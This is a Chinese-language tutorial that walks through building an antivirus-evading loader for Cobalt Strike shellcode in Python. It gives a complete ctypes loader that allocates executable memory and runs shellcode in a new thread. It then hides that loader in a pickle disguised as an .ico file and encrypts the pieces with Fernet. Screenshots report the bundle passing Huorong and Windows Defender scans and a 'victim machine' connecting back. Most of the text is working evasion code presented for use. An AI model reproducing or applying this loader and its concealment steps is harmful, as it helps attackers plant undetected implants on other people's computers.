# 前言

本篇文章主要用到python来对CobaltStrike生成的Shellcode进行分离免杀处理, 因此要求读者要有一定的python基础, 下面我会介绍pyhon反序列化免杀所需用到的相关函数和库


## exec函数

`exec`函数是python的内置函数, 其功能与eval()函数相同, 但不同的是exec函数支持多行python代码的执行, 而eval()函数仅支持单行

```python
exec("""String = "HelloWorld"
print(String)""") 

#在上述的exec执行的python代码中定义了String变量,因此能进行输出
print(String) 

'''
代码执行结果:
HelloWorld
HelloWorld
'''
```


## pickle模块

pickle模块能实现任意对象与文本之间的相互转换, 也可实现任意对象和二进制之间的相互转换, 也就是说pickle能实现python对象的存储及恢复

python中几乎所有的数据类型(列表,字典,集合,类等等)都可以用pickle来序列化, 序列化的数据可读性差且难识别, 通常用于存储数据


### `pickle.dumps(obj)`

dumps功能将数据转换成只有python语言认识的字符串

- 参数`obj`: 要封装的对象

```python
import pickle
data = ['henry','helloworld',123]
p_str = pickle.dumps(data)
print(p_str)
#输出b'\x80\x04\x95\x1c\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x05henry\x94\x8c\nhelloworld\x94K{e.'
```


### `pickle.loads(bytes_obj)`

loads功能将pickle数据转换成python的数据结构

- 参数`bytes_obj`: `pickle_dumps`后的数据对象

```python
import pickle
data = ['henry','helloworld',123]
p_str = pickle.dumps(data)
print(p_str)

str = pickle.loads(p_str)
print(str)
#输出:['henry', 'helloworld', 123]
```


### `pickle.dump(obj,file,[protocol])`

序列化对象, 并将结果数据流写入文件file中

- 必填参数`obj`: 将要封装的对象
- 必填参数`file`: 要写入的文件对象, file必须以二进制模式打开

- 参数`protocol`: 代表序列化模式, 默认值为0, 表示以文本的形式进行序列化, protocol的值为1或2时表示以二进制的形式序列化

```python
import pickle
data = ['henry','helloworld',123]

with open('dump.txt','wb') as file:
    pickle.dump(data,file)

with open('dump.txt','rb') as file:
    print(file.read()) #输出:b'\x80\x04\x95\x1c\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x05henry\x94\x8c\nhelloworld\x94K{e.'
```


### `pickle.load(file)`

反序列化对象, 将文件中的数据解析为一个python对象

- 必填参数`file`: 存有pickle数据的文件对象

```python
import pickle
data = ['henry','helloworld',123]

with open('dump.txt','wb') as file:
    pickle.dump(data,file)

with open('dump.txt','rb') as file:
    print(pickle.load(file)) #输出:['henry', 'helloworld', 123]
```


## 类特殊方法:`__reduce__`

当定义扩展类型时(即使用python的C语言API实现的类型), 若你想pickle这些类型, 你必须告诉python如何去pickle

`__reduce__`方法在类中被定义后, 当对象被pickle时就会被调用, 它要么返回一个代表全局名称的字符串, python会查找此字符串并pickle; 要么返回一个元组, 此元组包含2到5个元素, 第一个元素为可调用的对象, 用于重建对象时调用; 第二个元素是参数元素(必须为元组), 供可调用对象(第一个元素)使用; 另外三个元素分别是: 被传递给`__setstate__`的状态(可选)、一个产生被pickle的列表元素的迭代器(可选)、一个产生被pickle的字典元素的迭代器(可选)

```python
import pickle
shellcode = "list1 = [1,2,3,4]"

class A(object):
   def __reduce__(self):
       return (exec,(shellcode,))

#当实例对象被pickle后,则会调用特殊方法__reduce__,所以下列代码相当于pickle.dumps((exec,(shellcode,)))
ret = pickle.dumps(A())

print(ret)
#输出:b'\x80\x04\x95-\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x04exec\x94\x93\x94\x8c\x11list1 = [1,2,3,4]\x94\x85\x94R\x94.'
```


## Cryptography

### 简介

Cryptography是python语言中非常著名的加解密库，在算法层面提供了高层次的抽象，使用起来非常简单、直观，同时还保留了各种不同算法的低级别接口，保留灵活性

我们知道加密一般分为对称加密(Symmetric Key Encryption)和非对称加密(Asymmetric Key Encryption)。各自对应多种不同的算法，每种算法又有不同的密钥位长要求，另外还涉及到不同的分组加密模式，以及末尾补齐方式。因此需要高层次的抽象，把这些参数封装起来，让我们使用时，不用关心这么多参数，只要知道这么用足够安全就够了

对称加密又分为分组加密和序列加密，本文只讨论对称分组加密

- 主流对称分组加密算法：DES、3DES、AES
- 主流对称分组加密模式：ECB、CBC、CFB、OFB
- 主流填充标准：PKCS7、ISO 10126、ANSI X.923、Zero padding

在cryptography库中，对称加密算法的抽象是fernet模块，包括了对数据的加解密以及签名验证功能，以及密钥过期机制，该模块采用了如下定义：

- 加解密算法为AES，密钥位长128，CBC模式，填充标准PKCS7
- 签名算法为SHA256的HMAC，密钥位长128位
- 密钥可以设置过期时间


### 使用实例

```python
from cryptography.fernet import Fernet

String = b"Hello World"

#生成密钥
key = Fernet.generate_key()
print(key) #输出key: b'wmCNyvzUekp_JWEHUcTy4vS2qMrWDXbKOfTooYD1WiI='
f_obj = Fernet(key) #定义一个用于实现加密和解密方法的对象

#进行加密
encrypt_String = f_obj.encrypt(String)
print(encrypt_String) #输出加密后的内容: b'gAAAAABjetNK7sjOoosLI-KcPGdwvQQJVnhwYR9JIeGUx3hJ3qKOQXkaKiGgrlj8wr-tMZdhFKcoK75oONPP4rEDVna5cITQ9g=='

#进行解密
decrypt_String = f_obj.decrypt(encrypt_String)
print(decrypt_String) #输出解密后的内容: b'Hello World'
```


## Ctypes库

Ctypes 是 Python 的外部函数库。提供了与 C 兼容的数据类型，并允许调用 DLL 或共享库中的函数。可使用该模块以纯 Python 形式对这些库进行封装

而本编文章主要调用系统DLL的函数有`VirtualAlloc`、`RtlMoveMemory`、`CreateThread`、`WaitForSingleObject`, 这些函数后文都会讲述


# ShellCode加载器

## 实现思路

要实现所谓的Shellcode加载器, 其实只需以下四个步骤:

- `VirtualAlloc`函数开辟内存空间
- `RtlMoveMemory`函数将Shellcode加载至此内存空间
- `CreateThread`创建线程执行此段内存空间的内容
- `WaitForSingleObject`等待ShellCode执行结束


## 加载代码

```python
import ctypes

#CobaltStrike生成的PythonShellcode代码,注意双引号前有个b
bytesbuf = b""

#bytearray()函数返回一个新字节数组
shellcode= bytearray(bytesbuf)


#VirtualAlloc函数用来开辟内存空间,返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))

#RtlMoveMemory函数将Shellcode加载至此段内存空间
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)

#使用CreateThread函数创建一个线程从Shellcode的起始地址开始执行此段内存空间的内容
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)

#通过WaitForSingleObject函数来等待执行结束
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```


## 运行测试

使用火绒扫描Shellcode加载器, 结果可想而知报毒了, 所以更不用说打包成可执行文件了, 因此需要对加载器代码进行反序列化处理



​	

# 简单的反序列化免杀	

## 项目代码

### GenerateShellcode.py

```python
#将下述的代码替换成CobaltStrike的Shellcode
shellcode = b''
with open('shellcode.txt','wb') as f:
    f.write(shellcode) 
```


### PickleDump.py

```python
#pickle dump
import pickle

shellcode="""
import ctypes

f= open('shellcode.txt', 'rb')
shellcode= f.read()
shellcode= bytearray(shellcode)
ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
"""

class A(object):
   def __reduce__(self):
       return(exec,(shellcode,))

ret=pickle.dumps(A())

#将pickle后的数据写入test.ico文件
with open("test.ico",'wb') as file:
   file.write(ret)
```

​	

### PickleLoad.py

```python
import pickle
import ctypes

temp=open("test.ico","rb").read()
shellcode=pickle.loads(temp)  #将pickle数据转换成python数据结构,以此能够执行python代码
```


## 运行测试

先执行`GenerateShellcode.py`生成`shellcode.txt`文件, 再执行`PickleDump.py`生成`test.ico`文件, 用火绒扫描下这两个文件, 没有报毒, 但是WindowsDefender报毒了, 不过没关系, 后文我会通过对这两个文件加密来绕过WindowsDefender



​	

使用pyinstall将`PickleLoad.py`打包成可执行文件, 在项目文件打开终端执行如下命令:

```python
pyinstall.exe -F PickleLoad.py
```




随后会在项目文件的dist目录生成可执行文件, 使用火绒杀毒测试下, 可以发现未报毒

	


将`PickleLoad.exe`、`shellcode.txt`、`test.ico`文件放到同一目录下, 随后运行PickleLoad.exe会弹出一个窗口, CS显示上线

> 若此窗口关闭了, 则受害机在CS下线






# 加密后的反序列化免杀

## 项目代码

### GenerateShellcode.py

```python
shellcode = b''

with open('shellcode.txt','wb') as f:
    f.write(shellcode)
```


### encrypt.py		

```python
#对静态文件进行加密
from cryptography.fernet import Fernet

def EncryptTXT(filename):
    with open(filename,'rb') as file:
        key = Fernet.generate_key()
        f = Fernet(key)
        enc_pay = f.encrypt(bytes(bytearray(file.read())))

    with open("Encrypt_shellcode.txt",'w+') as file:
        file.write(enc_pay.decode())
        #print('加密完成,加密后的文件为Encrypt_shellcode.txt,加密key={}'.format(key))
    return key

def EncryptICO(filename):
    with open(filename, 'rb') as file:
        key = Fernet.generate_key()
        f = Fernet(key)
        enc_pay = f.encrypt(bytes(bytearray(file.read())))
    with open('Encrypt_test.ico','w+') as file:
        file.write(enc_pay.decode())
        #print('加密完成,加密后的文件为Encrypt_test.ico,加密key={}', format(key))
    return key
```


### PickleDump.py	

```python
import pickle
from encrypt import EncryptTXT,EncryptICO

key = EncryptTXT('shellcode.txt')
shellcode="""
import ctypes
from cryptography.fernet import Fernet

f= open('Encrypt_shellcode.txt', 'rb')
shellcode= f.read()
key= {0}
f_obj= Fernet(key)
shellcode= f_obj.decrypt(shellcode)
shellcode= bytearray(shellcode)

ctypes.windll.kernel32.VirtualAlloc.restype= ctypes.c_uint64
ptr= ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000),ctypes.c_int(0x40))
buf= (ctypes.c_char *len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
   ctypes.c_uint64(ptr),
   buf,
   ctypes.c_int(len(shellcode))
)
handle= ctypes.windll.kernel32.CreateThread(
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.c_uint64(ptr),
   ctypes.c_int(0),
   ctypes.c_int(0),
   ctypes.pointer(ctypes.c_int(0))
)
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
""".format(key)


class A(object):
   def __reduce__(self):
       return(exec,(shellcode,))

if __name__ == '__main__':
    ret = pickle.dumps(A())
    with open("test.ico", 'wb')as img:
        img.write(ret)
    key = EncryptICO('test.ico') #对test.ico
    print(key)
```


### PickleLoad.py

```python
import pickle
import ctypes
from cryptography.fernet import Fernet

temp=open("Encrypt_test.ico","rb").read()
key = b'2cAx5afBvED2B7vanLMy8TvRT3hG6uIJukWD9nu56Yk='
f_obj=Fernet(key)
temp=f_obj.decrypt(temp)
shellcode=pickle.loads(temp)
```


## 项目运行

首先运行`GenerateShellcode.py`生成shellcode.txt

随后运行`PickleDump.py`生成test.ico, 并对shellcode.txt和test.ico进行加密, 加密后的文件为`Encrypt_shellcode.txt`和`Encrypt_test.ico`, 此时注意控制台输出的key值为`b'2cAx5afBvED2B7vanLMy8TvRT3hG6uIJukWD9nu56Yk='`(PickleLoad.py会用到)




打开`PickleLoad.py`, 将key值替换成上述生成的key值




使用pyinstall命令打包`PickleLoad.py`为可执行文件

```
pyinstall.exe PickleLoad.py
```




最后三位一体的免杀文件分别是`Encrypt_shellcode.txt`、`Encrypt_test.ico`、`PickleLoad.exe`

`


使用火绒和WindowsDefender扫描均未报毒

					

	


但是运行的时候会被WindowsDefender拦截掉, 个人猜测可能是CobaltStrike流量被检测到了, 后续还需对CS流量进行隐藏或加密

	


## 参考文章

- https://mp.weixin.qq.com/s/WOBQFbrEgylNhBAwlT9JnQ

- https://mp.weixin.qq.com/s?__biz=MzAwMjc0NTEzMw==&mid=2653579519&idx=1&sn=e6d31f52ea46d141e817e6ca4043c50c&chksm=811b7ebdb66cf7ab0a542c58ebaac8b526a650c565caa5a3754f17c9f00089d2d08b9e32f68a&scene=126&sessionid=1660184540&key=41ff146e600b77a0d04399ad7126a7870762dbcc55e2fc1dcb7890570b7ebb183da39306b60480a6de984d71fb0881334eb9ed7714d8b475a61c6ad0efcc3f2e1d8c2de2738842a5d6767bf21a5674b6e0951ea5e41b54fe509639e775f757d1bd73871e619b776d0663a1eeebe4dad6f09f6dd4de293976f8d9529dcdc7a68f&ascene=15&uin=MTA3Mzc3OTIzNQ%3D%3D&devicetype=Windows+10+x64&version=6307051f&lang=zh_CN&session_us=gh_ceb74c1acd23&exportkey=ARaPcaF8%2B3anRpPJRj8hRS8%3D&acctmode=0&pass_ticket=tLi1BnMh8wn6%2FSHfWt0wXfhUW0X59t7KFmIx2QsYk6UEAG3Ra%2Bo9emrqh%2FIyrr11&wx_header=0&fontgear=2

  